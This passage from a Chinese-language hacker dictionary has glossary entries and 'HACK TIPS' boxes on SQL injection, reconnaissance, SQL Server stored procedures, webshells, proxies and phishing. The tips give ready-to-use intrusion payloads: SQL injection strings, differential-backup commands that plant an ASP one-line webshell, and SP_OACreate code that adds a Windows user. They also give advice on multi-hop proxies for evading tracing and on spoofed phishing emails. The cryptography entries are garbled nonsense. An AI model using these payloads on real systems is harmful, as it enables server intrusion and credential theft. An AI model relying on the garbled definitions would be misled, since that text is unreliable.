

## 冰刃 应用程序

冰刃（IceSword）是专门为查杀木马和后门而设计，内部功能强大。它使用了大量内核技术，可结束除Idle进程、System进程、csrss进程外的所有进程，如图B-4。这一点是其他同类软件做不到的。当然，有些进程也不是随便可以结束的，如系统的winlogon.exe进程，一旦杀掉后系统就崩溃。同时，冰刃还可查看系统隐藏进程与服务，让查杀木马与病毒变得易如反掌。

### HACK TIPS:

冰刃之所以如此强大，是因为其大量【挂钩】（HOOK）了RING0级别的API（如NtOpenProcess），这样它不仅能终止许多系统进程，也能看到许多利用挂钩技术隐藏的进程、【注册表】的【键值】、文件等。一些木马在创建进程后会自己终止进程，有的木马有很多进程，冰刃都会标记出来并用红色显示。

另外，冰刃的进程是以驱动级别运行的，所以很难终止，窗口的标题每打开一次就会切换，这样就无法通过发送指定消息进行关闭。因此，冰刃查杀木马及病毒的能力极强。


## 病毒库 病毒与恶意软件，安全技术

病毒库其实就是一个数据库，它里面记录着电脑病毒的种种“相貌特征”，以便及时发现并查杀它们。只有这样，杀毒程序才会区分出病毒程序与一般程序，所以有时我们也称病毒库里的数据为“病毒特征码”。病毒库是需要时常更新的，这样才能保护你的电脑不被最新流行的病毒所侵害。

任何一种杀毒软件都可以根据病毒的特征来判断文件是否为病毒、是否已感染病毒。以往的杀毒软件一般是每隔几天更新病毒库，但由于电脑病毒数量的剧增，现在杀毒软件更新病毒库的速度加快了，甚至是以小时来计算。据说著名的卡巴斯基每隔三小时就会更新一次。

## B 密码学

随着免疫技术在黑客中的应用，也促使安全厂家发明了新的主动防御技术（见“主动防御”）。

### 密码学基础

“密码”一词，源于文字本身/Blogger, Blog, Webblog的称呼，其英文是Web的缩写。Web，指World Wide Web，互联网的网页。Blog的词根，“日记”是指记录的流水记录，在一些来源，Weblog是在网络上的一种流水记录或游戏账号。

病毒感染偷主前是初步形态的文件，常用与恶意软件。

### 密码技术基础

指通过调制解调器（MODEM）将数字信号转为模拟信号，再通过各地电缆的接口端口传回的步骤。这种方式的上网费用高，速度较慢，已被带宽取代。现在普通用户上网流程上的两大方式主要有：ADSL拨号，普通宽带。

### 不了解加密算法

不了解加密算法的本质原理，只是偷窃密码，从而使拦截盗过加密算法能造成密文，这种加密算法的猜测，只有了解加密算法，才能了解加密算法进行过规。

不了解加密算法，只有了解加密算法，才能了解加密算法进行过规。

如果发信方想发送只有收信方才能解读的加密信息，发信方必须首先知道收信方的【公钥】，然后利用收信方的公钥来加密原文；收信方收到加密密文后，使用自己的【私钥】才能解密密文。

显然，采用不对称加密算法，收发信双方在通信之前，收信方必须将自己早已随机生成的公钥送给发信方，而自己保留私钥。由于不对称算法拥有两个密钥，因而特别适用于分布式系统中的数据加密。而数字签名就是不对称算法的实际应用。

### 猜解密码——攻击方法与行为

SQL injection中常用的一种技术，其基本思想是通过有漏洞的脚本页面向数据库提交查询，通过页面的返回信息猜解出数据库中表的名称。基本的攻击语句如：`and 0<> (select count(*) from admin)`。

此语句可判断是否存在admin表，当存在此表时，`(select count(*) from admin)`返回真，即非0，则整条语句`0<> (select count(*) from admin)`为真，整个页面显示正常。

现在已经有许多傻瓜化工具可自动猜解，如NBSI、【啊D注入工具】、【穿山甲】等。

### HACK TIPS:

上述猜解语句虽然对ACCESS与MSSQL都有效果，但只有正好猜中完整的表名才行，这样使猜解者常常花费大量时间在猜解表名上。而对于MSSQL，常有一种利用MSSQL本身的错误机制进行猜解的方法，因为它是让MSSQL自动将表名、列名暴出来，所以效率大大提高。

这种方法的原理就是在SQL语句中，`having 1=1--`是与`group by`结合使用并进行条件判断的，如果语句不完整，数据库就会返回错误信息，并显示一个表名和一个列名。

一般在【注入点】处输入`http://www.xxx.com/xxx.asp?id=xx having 1=1--`即可，如图C-1所示。



其中`FORUM_TOPICS.TOPIC_ID`就是当前用户的数据信息了，`FORUM_TOPICS`是表名，而`TOPIC_ID`为列名。这样表名和列名都同时爆出来了。

继续猜解用户数据信息，不过这里的语句稍微有点变化，改成了`group by`用户信息`having 1=1--`。比如提交`http://www.xxx.com/xxx.asp?id=xx group by FORUM_TOPICS.TOPIC_ID having 1=1--`，可得到一个`T_SUBJECT`列名，如图C-2所示。



## C 黑客词典

继续提交数据，不过这时我们已经有两个列名了，所以提交的数据又有一点变化，为 `group by 用户信息1, 用户信息2 having 1=1--`。继续提交 `http://www.xxx.com/xxx.asp?id=xx group by FORUM_TOPICS.TOPIC_ID, FORUM_TOPICS.T_SUBJECT having 1=1--` 就可以得到其他的列名了。

## 猜解列名 攻击方法与行为

SQL Injection 中常用的一种技术，又称猜解字段名，其基本思想是通过有漏洞的脚本页面向数据库提交查询，通过页面的返回信息猜解出数据库中表里的列名称。最基本的攻击语句为：`and 1=(select count(*) from admin where len(username)>0)`。

此语句可判断 admin 表是否存在 username 这个列，当有此列时，`select count(*) from admin where len(username)>0` 为真，返回 1 则整个表达式为真，页面显示正常。现在已经有许多傻瓜化工具可自动猜解，如 NBSI、【啊D 注入工具】、【穿山甲】等。

## HACK TIPS:

虽然工具猜解技术日臻完善，速度上大大快于手动猜解，但笔者还是鼓励初学者先试着用浏览器进行手动猜解。这样能使你真正理解 SQL 注入的思想，也能使入侵的手法变得更加灵活，同时由于环境的不同，工具猜解的误报率也比较高。

## 猜解内容 攻击方法与行为

SQL Injection 中常用的一种技术，又称猜解字符，其基本思想是通过有漏洞的脚本页面向数据库提交查询，通过页面的返回信息猜解出数据库中的表里面每行列的内容。最基本的攻击语句为：`and 1=(select count(*) from admin where left(username,1)='a')`。

此语句可以判断 admin 表中 username 字段第一个字符是否为 a，如为 a 则页面正常。现在已经有许多傻瓜化工具可自动猜解，如 NBSI、【啊D 注入工具】等。

## 重定位 加密解密

一般来说，重定位主要用于被脱壳后的 DLL 文件，因为 DLL 文件被某些壳加壳后，会对 DLL 产生一定的保护作用，可能将 DLL 文件的某些数据转移了。在脱壳后，程序因为原来的 DLL 文件加壳产生了保护作用，有可能因此不能正常运行，所以要将脱壳后的数据重新定位到正常运行状态。

## 重启验证 加密解密

重启验证是指当使用者输入了注册信息之后（无论真假），程序会自动提示使用者重新启动软件或提示使用者的注册信息已经保存。当然，有时它也不会提示破解者。当破解者发现前面所说的条件之一时，应考虑重启验证了。一般重启验证的信息会保存在注册表、程序目录、系统目录等地方。

## 踩点 渗透技术

指攻击者发起攻击或渗透之前，全方位、多渠道地收集、整理目标的信息资料，这些资料一般包括以下几个方面：

- 目标网络域名情况；
- 目标网络地址范围；
- 目标网站所使用的系统；
- 关键系统（如电子邮件服务器、网关、路由器、防火墙等）的具体位置，内部 VPN 的接入点等；
- 目标的合作伙伴、分支机构、网络、第三方连接等；
- 【社会工程学】资料，如员工的列表与邮箱及企业的电话号码；
- 网站管理员资料。

## HACK TIPS:

基于上述几个信息，常见的相应踩点法有如下几种：

- 通过 WHOIS 查询对方网络域名情况，查看对方主机绑定有几个域名，这样间接判断了有几个网站，为以后的计划做好准备。
- 通过浏览目标网站了解其大概架构，整个网站由哪几个程序构成，有几个 WEB 服务器，有无 FTP 服务器，有无邮件服务器等。
- 用搜索引擎查询指定信息，如后台登录页面就可以用 GOOGLE 黑客的常用套路：`intitle:登陆 insite:目标网站的域名`，或者 `intext:密码 insite:目标网站的域名`，如果运气好，或许能够搜索出一些有用的信息。

## 查点 渗透技术

【踩点】只是让攻击者初步确定他所要发起攻击的攻击点，不过这是不够的，他还需进一步收集更多信息来确定每个攻击点的弱点，这一过程就称为【查点】。

在查点过程中，攻击者需要连接到目标系统发出一系列查询命令，一般集中在以下几个方面：

- NetBIOS
- RPC
- SMB
- DNS
- SNMP
- 【活动目录】
- Finger

## HACK TIPS:

有许多扫描工具能得到上述查点信息，如 NetBIOS、RPC、SMB、SNMP、FINGER 都能用著名的扫描器 X-SCAN 和 SUPERSCAN 来完成。当然，对于 SNMP 协议，如果有口令的话，可用大名鼎鼎的 SolarWinds 来查看服务器的详细信息，如图 C-3。

而 DNS 可以由 NSLOOKUP 命令来完成，如要查询域名 seekseek.net，就可以输入如下命令：

```txt
C:\>nslookup
Default Server:  ns1.hn.cnc.cn
Address:  58.20.127.170
> set type=any
> seekseek.net
Server:  ns1.hn.cnc.cn
Address:  58.20.127.170

Non-authoritative answer:
seekseek.net nameserver = ns2.dns.com.cn
seekseek.net nameserver = ns1.dns.com.cn
seekseek.net nameserver = ns2.dns.com.cn
seekseek.net nameserver = ns1.dns.com.cn
ns1.dns.com.cn internet address = 124.42.122.9
ns1.dns.com.cn internet address = 122.70.138.5
ns1.dns.com.cn internet address = 122.70.138.6
ns1.dns.com.cn internet address = 124.42.122.8
```

这样可清楚地看到 seekseek.net 有两个域名服务器，一个是 ns2.dns.com.cn，另一个是 ns1.dns.com.cn。

对于 Windows 的核心安全机制【活动目录】的查点，可用 Windows 2003 自带的 Support Tools 工具包，里面有个名为 LDP.EXE 的 LDAP 客户程序，这个小工具可连接活动目录的服务器，并浏览其目录，如图 C-4。

## 菜鸟 特定名称

专指在某个技术方面刚入门的初学者。

## 插件 特定名称

插件是遵循一定规范的应用程序接口编写出来的程序。很多软件都有插件，且有无数种。例如在 IE 中，安装相关的插件后，WEB 浏览器能直接调用插件程序，处理特定类型的文件或执行某项特定的功能。

插件为软件提供了更多额外的功能，让使用者能更方便地使用软件，如 IE 浏览器常见的 Flash 插件、RealPlayer 插件等。

## 查壳 调试技术

指在脱壳前将程序所使用壳的种类查出来，这样才好决定用什么样的方法将其脱去。

## 查询语句 数据库

指数据库技术中对数据执行操作命令语句的总称，常见的有：

- Select——从数据库表中检索数据行和列
- Insert——向数据库表增加新数据行
- Delete——从数据库表中删除数据行
- Update——更新数据库表中的数据

另外需补充的是，要想将 SQL Injection 发挥得淋漓尽致，不精通这些语句是不行的。

## 差异备份 数据库 攻击方法与行为

SQL Server 中数据备份种类的一种，只备份自上次数据库全部备份后数据库增加的操作。如果已经完全做过一次普通备份，又做过几次差异备份，当需要还原时，只需还原上次做的普通备份，再还原最后一次的差异备份就可以了。

这种特性在入侵中也常被使用，当目标的数据库只有 DB_OWNER 权限时，关键的【存储过程】都不能使用，这时就可使用差异备份导出一个 WEBSHELL。

其基本思路是：先创建一个表，将【一句话】写入表中，再将其数据库进行普通备份，最后在表中写入【一句话】进行差异备份。其典型命令如下：

```sql
create table cmd(str image);
backup database news to disk='c:\\data.bak';
insert into cmd(str) values ('<%execute request("a")%>');
backup database news to disk='d:\\web\\test.asp' with differential, format
```

这样就将一句话木马备份到了 `d:\web` 下。

## 存储过程 数据库

存储过程是存储在 SQL Server 中预先写好的 SQL 语句集合，它分为三类：系统提供的存储过程、用户定义的存储过程和扩展存储过程。

系统提供的存储过程是在安装 SQL Server 时创建的存储过程，名字以“sp_”开头；用户定义的存储过程是 SQL Server 的使用者编写的存储过程；扩展存储过程则是对【动态链接库（DLL）】函数的调用，主要用于客户端与服务器端之间进行通信。与一般动态链接库不同的是，它们直接运行在 SQL Server 分配的内存地址中，其中危险性最高的扩展存储过程就是 xp_cmdshell 了，它可执行操作系统的任何指令。

扩展存储过程的功能非常强大，它们存在于 master 库中的扩展存储过程中，如图 C-5。其中的许多存储过程（如 xp_regenumvalues、xp_regread、xp_regwrite、xp_regdeletevalue、xp_regdeletekey 这些扩展存储过程）能对注册表进行读写操作。例如：在查询分析中可通过如下命令查看注册表中的启动项目：

`Exec xp_regenumvalues 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run'`

## HACK TIPS:

很多时候管理员为了安全，会直接将 xp_cmdshell 这个存储过程删除（包括相应的 DLL 文件），此时还有些其他存储过程可以利用 SP_OACreate 这个存储过程，它一样可执行系统命令。在查询分析器里执行：

```sql
DECLARE @shell INT
EXEC SP_OACreate 'wscript.shell', @shell OUTPUT
EXEC SP_OAMethod @shell, 'run', null, 'C:\Windows\system32\cmd.exe /c net user gydyhook hook /add'
```

这段代码就是利用 SP_OACreate 来添加一个 gydyhook 的系统用户，如图 C-6。

## 常量 程序语言与开发

指编程中固定不变的量，与【变量】相对应。

## 超级远程管理 Super.RA 应用程序

SuperRA 是个远程管理工具，使用它可轻松操作远程机器，如同操作本地机器一样，其包含远程桌面、文件传输、注册表操作、进程查看以及远程命令行操作等功能，且使用简单。软件的基本功能如下：

- 远程桌面，即在本地模拟远程机器，如同操作本地机器一样，支持按键处理，并可通过剪切板进行本机和远程机器的数据交换。
- 文件传输，可以完全按照盘符列出远程机器的所有文件，可以查看文件各项信息，支持多个文件上传下载，对于远程 EXE 文件可本地执行并反馈执行结果。
- 注册表操作，可以同时显示本地注册表和远程注册表信息，并可进行增加、删除、修改等操作。
- 远程命令行（COMMAND），可在本地执行远程 DOS 命令并返回执行结果，支持标准的 DOS 命令及其他常用的 DOS 工具软件命令。
- 进程操作，可以列出本地进程、任务和远程机器的进程、任务信息，并可终止进程。

## 超链接 黑客技术基础

超链接在本质上属于网页的一部分，它是一种允许我们同其他网页或站点之间进行连接的元素，表示从一个网页指向一个目标的连接关系，这个目标可以是另一个网页，也可以是相同网页上的不同位置，还可以是一个图片、电子邮件地址、文件、应用程序。

在网页中，一般文字上的超链接都是蓝色（当然，用户也可以自己设置成其他颜色），文字下面有一条下划线。当移动鼠标指针到该超链接上时，鼠标指针就会变成一只手的形状，这时用鼠标左键单击，就可直接跳到与这个超链接相连接的网页或 WWW 网站上去。

## 【程序名】黑客工具

即 Pangolin，它是一款由国人开发的强大 SQL 注入工具，如图 C-7，作者的编程水平功底比较深厚，所以程序的质量要比以前的 SQL 注入工具高出很多。它实现了从检测到利用完整一体化的渗透攻击动作，尽可能地将 SQL 注入攻击效果最大化。美中不足的就是误报比较严重，希望新版本能够有所改进。

- 使用平台：Windows XP SP1/SP2，Windows 2003 Server SP1，Windows Vista。
- 支持的数据库类型：MS SQL，Oracle，MySQL，Access，PostgreSQL。

## 【程序文件格式】脚本

一款使用很广的图文“整站程序”，因出过几个大漏洞而被黑客们所“青睐”。

## 【程序领空】程序语言与开发

代指程序运行时所占用的内存空间。

## 【冲击波】病毒与恶意软件

冲击波在 2003 年出现，是一种利用 Windows 系统中被人忽视而又无所不在的 RPC 协议中的漏洞进行传播的【蠕虫】病毒。此漏洞不需要通过电子邮件（或附件）来传播，使得更隐蔽、更不易察觉。它使用 IP 扫描技术来找网络上操作系统为 Windows 2000/XP/2003 的计算机，一旦找到有漏洞的计算机，它就会利用 RPC 里一个叫 DCOM 模型中的接口漏洞进行【缓冲区溢出攻击】。

中毒症状：

- 系统资源紧张，应用程序运行速度异常；
- 网络速度减慢，“DNS”和“IIS”服务遭到非法拒绝，用户不能正常浏览网页或收发电子邮件；
- 不能进行复制、粘贴操作；
- Word、Excel、PowerPoint 等软件无法正常运行；
- 系统无故重启，或在弹出“系统关机”警告提示后自动重启等。

## 初始密码

指用户在使用软件或系统之前，软件或系统预设的默认密码。如很多路由器的初始密码是 admin，如果使用者没有更改的话就容易受到攻击，也叫默认密码。

## 纯真IP数据库

国内一个很著名的 IP 数据库，用来存储 IP 地址与其对应的位置，在 QQ 与网站计数器上都有使用，可快速查找到 IP 所对应的地区。

## 词典破解

多数人使用普通词典中的单词作为口令，发起词典攻击通常是较好的开端。这种方式又称字典攻击，攻击者使用一个包含大多数词典单词的文件，用这些单词猜测用户口令。使用一部 1 万个单词的词典一般能猜测出系统中 70% 的口令。攻击者可以生成特定的词典，比如出生日期等，因为许多人设置密码的习惯相同，这就给了词典攻击可乘之机。

## 磁盘

硬盘的别称。计算机的外部存储器中也采用了类似磁带的装置，它将圆形的磁性盘片装在一个方的密封盒子里，这样可以防止磁盘表面划伤所导致的数据丢失。

有了磁盘之后，人们使用计算机就方便多了，不但可以把数据处理结果存放在磁盘中，还可把很多输入到计算机中的数据存储到磁盘中，因此，这些数据可以反复使用，避免了重复劳动。

硬盘最基本的组成部分是由坚硬金属材料制成的涂以磁性介质的盘片，不同容量硬盘的盘片数不等。每个盘片有两面，都可记录信息。盘片被分成许多扇形的区域，每个区域叫一个扇区；每个扇区可存储 `128×2` 的 N 次方（N=0,1,2,3）字节信息。

在 DOS 中，每扇区是 512 字节（`128×2` 的 2 次方），盘片表面上以盘片中心为圆心，不同半径的同心圆称为磁道。硬盘中，不同盘片相同半径的磁道所组成的圆柱称为柱面。

磁道与柱面都表示不同半径的圆，在许多场合，磁道和柱面可以互换使用。我们知道，每个磁盘有两个面，每个面都有一个磁头，扇区、磁道（或柱面）和磁头数构成了硬盘结构的基本参数，通过这些参数可以得到硬盘的容量，其计算公式为：存储容量 = 磁头数 × 磁道（柱面）数 × 每道扇区数 × 每扇区字节数。

## 磁盘配额

Windows 2000/XP 都具有磁盘配额功能。只要启用了磁盘配额，你就可在每个硬盘分区中限制任意一个用户或者组的最大磁盘使用容量，任何时候任何用户都不可能超出分配给他的配额。

磁盘配额监视个人用户的卷使用情况，因此每个用户对磁盘空间的利用都不会影响同一卷上的其他用户的磁盘配额。如果卷 F 的配额限制是 500MB，而用户已在卷 F 中保存了 500MB 的文件，那么该用户必须首先从中删除或移动某些现有文件，才可以将其他数据写入卷中。

使用磁盘配额除了对操作系统的要求之外，并要求用户必须具有 Administrator 权限，而且所配置的分区必须用 NTFS 文件系统进行格式化。

## 磁盘权限 操作系统及其相关

在一般系统中的每个文件或目录都包含有访问权限，这些访问权限决定了谁能访问和如何访问这些文件和目录。所以磁盘权限就是指系统中用户对磁盘中文件或文件夹各项操作的许可状态。

在 Windows 下，如果磁盘格式为 NTFS，就可以为任意盘符、文件夹、文件，针对每个用户设置权限，其选项如下：

- 完全控制：包含以下所有操作许可
- 修改：只允许修改文件
- 读取和运行：只允许读取和运行文件
- 列出文件夹目录：只允许列出文件夹目录
- 读取：只允许读取文件
- 写入：只允许向目录中写入文件

Windows 中可以右键点击文件夹，再点击“安全”进行设置，不过设置用户必须拥有 administrator 权限，如图 C-8。

## 磁盘阵列技术 操作系统及其相关

硬盘现在是越来越大，也越来越便宜了，不过硬盘越大，传输速度就越不让人满意。虽然现在出现了 SATA 等高速接口，但这样的接口也只是提高了主控制芯片和硬盘之间的数据传输速率，依然无法改变硬盘的内部最大传输速度。而用小容量硬盘组建 RAID 是提高硬盘性能而又廉价的方法。

其实磁盘阵列技术（RAID）是指由多个小容量、独立的硬盘组成的阵列，而阵列综合的性能可以超过单一昂贵大容量硬盘（SLED）的性能。由于是对多个磁盘并行操作，所以 RAID 磁盘子系统与单一磁盘相比，它的输入输出性能得到了提高。服务器会把 RAID 阵列看成一个单一的存储单元，并对几个磁盘同时访问，所以提高了输入输出的速率。

## 刺探 渗透技术

【踩点】的别称。

## 错误处理机制 程序语言与开发

又称异常处理，是程序设计中常用到的一种机制，指当程序遇到人为或不可预料的错误（如内存不足或除数为 0）时所采取的相应处理方法，这一般都是由编程人员预先编制好的。如果没有错误处理机制，当程序遇到许多错误时就会导致崩溃或者数据丢失，后果十分严重，详情请见【容错处理】词条。

## 大马 渗透技术

## D 黑客词典

常用来代指功能强大并且占用空间较大的木马，与之对应的是【小马】。常见的渗透思路是：利用小马体积小的特性将小马传至目标机器，再利用小马下载或者上传大马，即小马带大马。

一般，文章中的大马指代最多的还是 WEB 类型木马，或者说后门，如大名鼎鼎的海洋顶端、站长助手。此类大马功能都极其强大，不仅可查看目录，还可操作数据库，甚至还可查找木马，如图 D-1。



图D-1

## HACK TIPS:

像海洋顶端、站长助手这样的“大马”，虽功能强大，但其体积大，不易传播，且代码繁多复杂，【特征码】很多，容易被查杀。所以，一般情况下，我们会先想办法将【一句话木马】（即小马）放置到服务器，再把免杀后的大马通过小马放到服务器。放置一句话木马的方法有很多，详情请见相关词条。

## 【代理】 黑客技术基础

通过【代理服务器】对网络进行访问，而且我们也可通过代理隐藏自己的 IP，黑客也可通过代理隐藏行踪。另外，相似的方式还有 VPN。

## 【多重代理】 黑客技术基础

指通过多个代理服务器访问网络，一般是攻击者为了增加被追踪的难度而经常使用的技术，也称多重跳板。

## HACK TIPS:

在入侵一些极为重要的服务器时，入侵者常会使用多重代理。一般过程是通过国外的代理服务器代理到另一台也在国外的服务器，再入侵指定的服务器。因为第二次跳跃在国外，所以几乎无法查到入侵者的 IP 了。

## 【代理服务器】 黑客技术基础

代理服务器英文全称是 Proxy Server，其功能是代理网络用户去取得网络信息。形象地说：它是网络信息的中转站。

在一般情况下，我们使用网络浏览器直接去连接某个 Internet 站点取得网络信息时，是直接联系到目的站点服务器，然后由目的站点服务器把信息传送回来。代理服务器是介于浏览器和 Web 服务器之间的另一台服务器，有了它之后，浏览器不是直接到 Web 服务器去取回网页，而是向代理服务器发出请求，信息会先送到代理服务器，由代理服务器来取回浏览器所需要的信息并传送给你的浏览器。

大部分代理服务器都具有缓冲功能，它就好像一个大的 Cache，有很大的存储空间。它不断将新取得的数据储存到其本机存储器上，如果浏览器所请求的数据在它本机的存储器上已经存在，且是最新的，那么它就不重新从 Web 服务器取数据，而直接将存储器上的数据传送给用户的浏览器，这样就能显著提高浏览速度和效率。

更重要的是：代理服务器是 Internet 链路级网关所提供的一种重要安全功能，它的工作主要在开放系统互联（OSI）模型的对话层，从而起到防火墙的作用。

## 代码注入 攻击方法与行为

SQL 注入的别称。

## 单播 黑客技术基础

指主机之间“一对一”的通信模式，与之对应的还有【多播】与【广播】。

网络中的【交换机】和【路由器】一般对数据只进行转发，不进行复制。如果 10 个客户机需要相同的数据，则服务器需要逐一传送，重复 10 次相同的工作。但由于其能够针对每个客户及时响应，所以现在的网页浏览全部都采用 IP 单播协议。网络中的路由器和交换机根据其目标地址选择传输路径，将 IP 单播数据传送到其指定的目的地。

### 单播的优点：

- 1、服务器及时响应客户机的请求；
- 2、服务器针对每个客户不同的请求发送不同的数据，容易实现个性化服务。

### 单播的缺点：

- 1、服务器针对每个客户机发送数据流，服务器流量 = 客户机数量 × 客户机流量。在客户数量大、每个客户机流量大的流媒体应用中，服务器不堪重负；
- 2、现有的网络带宽是金字塔结构，城际、省际主干带宽仅仅相当于其所有用户带宽之和的 5%，如果全部使用单播协议，将造成网络主干不堪重负。现在的 P2P 应用就已经使主干经常阻塞，只要有 5% 的客户在全速使用网络，其他人就不要玩了。而将主干扩展 20 倍几乎是不可能的。

## 多播 黑客技术基础

主机之间“一对多”的通信模式，也就是加入了同一个组的主机可以接收到此组内的所有数据，网络中的交换机和路由器只向有需求者复制并转发其所需数据。

主机可以向路由器请求加入或退出某个组，网络中的路由器和交换机有选择地复制并传输数据，即只将组内数据传输给那些加入组的主机。这样既能一次将数据传输给多个有需要（加入组）的主机，又能保证不影响其他不需要（未加入组）的主机的其他通信。

### 多播的优点：

- 1、需要相同数据流的客户端加入相同的组，共享一条数据流，节省了服务器的负载，具备广播所具备的优点；
- 2、由于多播协议是根据接受者的需要对数据流进行复制转发，所以服务端的服务总带宽不受客户接入端带宽的限制。IP 协议允许有 2 亿 6 千多万个（268435456）多播组，所以其提供服务可以非常丰富；
- 3、此协议和单播协议一样允许在 Internet 宽带网上传输。

### 多播的缺点：

- 1、与单播协议相比没有纠错机制，发生丢包、错包后难以弥补；
- 2、现行网络虽然都支持多播的传输，但在客户认证等方面还需要完善。这些缺点在理论上都有成熟的解决方案，只是需要逐步推广应用到现存网络当中。

## 单线程下载 黑客技术基础

单线程就是与服务器只建立一个连接。如果把用户比作仓库，服务器比作车间，线程比作传送带的话，仓库要取得货物，就需要通过传送带将货物一个一个传下来。单线程就是只有一个传送带，而多线程就是同时开几个传送带来传送货物，效率提高了，但你会多用油、多费电。在网络中，消耗的就是网站带宽，如果人人都多开，服务器的带宽就受不了了，所以很多比较小的网站要求开单线程。

## D 黑客词典

## 盗链 特定名称

指未经他人允许，在自己网站上链接别人的图片或下载程序。这种没有任何资源的网站，利用他人的网站资源来展示给浏览者，以提高自己的访问量，同时增加了被盗链网站服务器的流量，而大部分浏览者又不会很容易发现。

这对于那些被利用了资源的网站是不公平的。一些不良网站为了不增加成本而扩充自己站点内容，经常盗用其他网站链接，一方面损害了原网站的合法利益，另一方面又加重了服务器的负担。

## 低用户权限 黑客技术基础

一般指普通用户权限，即对磁盘只有读取与运行的许可，不能修改或创建文件。

## HACK TIPS:

很多时候，我们是通过 WebShell 进入服务器，如果对方是 IIS 的话，那此时的权限可以称为低用户权限。因为访问 IIS 里的页面时，默认设置是继承 IIS 专有账户“IUSR_计算机名”的权限，而这个用户隶属于 User 组，所以得到的 WebShell 就是普通用户权限了，这就是 WebShell 低权限的根本原因。

## 钓鱼攻击 攻击方法与行为

全称是网络钓鱼，其（Phishing）与钓鱼的英语 fishing 发音相近。它是通过大量发送欺骗性垃圾邮件或【IM】信息，以意图引诱收信人给出敏感信息（如用户名、口令、账号 ID、ATM PIN 码或信用卡详细信息）的一种攻击方式。

最典型的网络钓鱼攻击是将收信人引诱到一个精心设计的、与目标组织网站非常相似的钓鱼网站上，并获取收信人在此网站上输入的个人敏感信息。欺骗者向欺骗对象发送伪造邮件，通常是冒充一些大型网站（如 eBay、PayPal、MSN、Yahoo、BestBuy 和 America Online）来骗取接收邮件者的经济信息。

钓鱼页面一般会要求受害者输入个人信息，包括信用卡号码、个人认证号、社会安全号、银行号码以及密码。通常这个攻击过程不会让受害者警觉，它是【社会工程攻击】的一种形式。如图 D-2，是钓鱼者进行钓鱼攻击的图解。

## HACK TIPS:

钓鱼的关键技术为匿名邮件技术与跨站技术。匿名邮件技术可以伪造任意邮件地址，例如要伪造 163 邮箱的客服，就可将邮件地址伪装成 Service@163.com，然后借助跨站技术伪造一个输入密码的页面，让用户信以为真，乖乖送上自己的密码。如图 D-3，就是一款典型的匿名邮件发送工具。

